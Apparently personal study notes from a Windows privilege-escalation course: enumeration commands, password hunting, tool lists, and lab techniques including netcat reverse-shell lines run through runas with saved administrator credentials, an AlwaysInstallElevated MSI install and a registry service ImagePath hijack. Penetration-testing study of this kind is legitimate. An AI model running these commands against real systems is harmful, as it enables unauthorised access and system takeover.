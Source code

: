 ### Windows Privesc TCM

## System Enumeration

`systeminfo | findstr /B /C:"OS Name" /C:"OS Version" /C:"System Type"` 

**Pull up patches**

`wmic qfe`

wmic qfe get Caption,Description,HotFixID,InstalledOn

**List all drives**

`wmic logicaldisk`

wmic logicaldisk get Caption,description,providername

## User E numeration

`whoami` 

**Find user privileges**

`whoami /priv`

**Groups you belong to**

`whoami /groups`

**Find users on this machine**

`net user`

**See who is part of a group**

`net localgroup administrators`

## Network Enumeration

`ipconfig && ipconfig /all`

**Drop arp table**

`arp -a`

**Read routing table**

`route print`

**See ports**

`netstat -nao`

## Password Hunting

**Search current directory**

`findstr /si password *.txt *.ini *.config`

## A/V and Firewall Enumeration

**Check windows defender**

`sc query windefend`

**Look for A/V**

`sc queryex type= service`

**Check firewall state**

`netsh advfirewall dump`

**Check firewall rules**

`net firewall show config`

## Automated Enumeration Tools
| Exectuables   | PowerShell    | Other | 
| ------------- | ------------- | ------------- |
| winPEAS.exe   | Sherlock.ps1  | windows-exploit-suggest.py |
| Seatbelt.exe  | PowerUp.ps1 | Exploit Suggester (Metasploit) |
| Watson.exe | jaws-enum.ps1 | |
|SharpUp.exe | | |

**Exploit Suggester**
`run post/multi/recon/local_exploit_suggester`

**Windows Linux Subsystem**
Can be used to escalate privileges

## Token Impersonation

What are tokens?
Tokens are temp keys taht allow you access to a system/network without having to provide creds each time.

Two types:
* Delegate - Create for logging into a machine or using Remote Desktop
* Impersonate - "non-interactive" such as attaching a network drive or domain logon script

## RunAs

`C:\Windows\System32\runas.exe /user:ACCESS\Administrator /savecred "C:\Users\Public\nc.exe -e cmd.exe x.x.x.x"`
`runas /user:Administrator /savecred "nc.exe -c cmd.exe 10.10.14.16 9006"`
`C:\Windows\System32\runas.exe /user:ACCESS\Administrator /savecred "C:\Windows\System32\cmd.exe /c C:\Users\Public\nc.exe -e cmd.exe x.x.x.x"`
`C:\Windows\System32\runas.exe /user:ACCESS\Administrator /savecred "C:\Windows\System32\cmd.exe /c TYPE C:\Users\Administrator\root.txt > C:\Users\security\root.txt"`

## AlwaysInstallElevated 

**Running an MSI**
msiexec /quiet /qn /i C:\Temp\setup.msi

## Registry

**Compile c for windows on Kali**
x86_64-w64-mingw32-gcc windows_service.c -o x.exe 

**Add executable to image path**
 reg add HKLM\SYSTEM\CurrentControlSet\services\regsvc /v ImagePath /t REG_EXPAND_SZ /d c:\temp\x.exe /f
